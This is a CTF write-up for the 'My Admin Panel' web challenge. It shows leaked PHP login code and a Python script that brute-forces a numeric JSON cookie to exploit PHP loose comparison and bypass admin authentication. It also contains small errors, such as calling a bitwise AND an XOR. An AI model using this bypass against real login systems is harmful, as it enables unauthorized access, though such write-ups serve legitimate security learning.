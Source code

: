 # CONfidenceCTF write-ups

**Author:** Kaushik S Kalmady, Rakshith G

## Web - My Admin Panel

We can download a `login.php.bak` file which contains the php code that runs at the `/login.php` endpoint.
```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Here are the things we can ascertain:
  - We need to send a cookie named `otadmin`
  - The cookie needs to be a valid json with a key field "hash"
  - The value field needs to match the regex `'/^{"hash": [0-9A-Z\"]+}$/'`, a hex with numbers and uppercase letter, can be enclosed in quotes
  - The value field has to match the `md5($cfg_pass)`

We are given some additional info though. If the payload we send doesn't match the md5, we are given a hint, which is the XOR of each character in the intended md5 with `0xC0`. This will actually be `0` where there are numbers, and `64` where character is a uppercase letter.

Let's send a sample payload
```python
>>> url = "https://gameserver.zajebistyc.tf/admin/login.php?"
>>> cookie = {"otadmin" : '{"hash" : "aaaaaaaaaaaaaaaa"}'}
>>> request.get(url, cookies=cookie).text
'I CAN EVEN GIVE YOU A HINT XD \n0006464640640064000646464640006400640640646400\n'
```

We can see that the xored string contains three 0s in the beginning and is followed by some uppercase letters.

Let's go back to the code now.
`$session_data['hash'] != strtoupper(MD5($cfg_pass)`

The comparison used is `!=`. If you read up about comparisons in php you'll find that `!=` is a type of weak comparison, where the LHS and RHS need not be of the same type. If  string and number are compared, then the string is first converted to number and then the comparison is done.

For e.g,
```php
0 != "1"  # True
0 != "0"  # False
```

Also during this string conversion to number, the characters starting from the first non numeric character are ignored. So `"123abc12"` becomes `123`. There's our exploit!

Remember that the md5 string contains three letters in the beginning followed by some characters, so if we pass the payload as a number, php will convert the md5 string to the number equivalent to first three chars and compare it with our payload. This means that we can now bruteforce this! 

This will be possible because as per the regex, we need not enclose the value field in the json with quotes, meaning we can send a number.

Here is the code to get the flag:
```python
def breakphp():
    url = "https://gameserver.zajebistyc.tf/admin/login.php?"
    default = 'I CAN EVEN GIVE YOU A HINT XD \n0006464640640064000646464640006400640640646400\n'

    # First three chars are numbers, then text
    # If our json payload is a number that matches the first three digits of md5
    # The != condition will be bypassed

    nums = "0123456789"
    
    # The regex is '/^{"hash": [0-9A-Z\"]+}$/'
    # Therefore we can send a number in the json payload, need not be string
    
    for i in nums[1:]: # json doesn't decode if the first digit is 0
        for j in nums:
            for k in nums:
                val = i + j + k
                cookie = {"otadmin" : '{"hash": ' + val + '}'}
                res = requests.get(url, cookies=cookie).text
                if res != default:
                    print(cookie)
                    print(res)
                    return

breakphp()
```

> Congratulations! p4{wtf_php_comparisons_how_do_they_work}


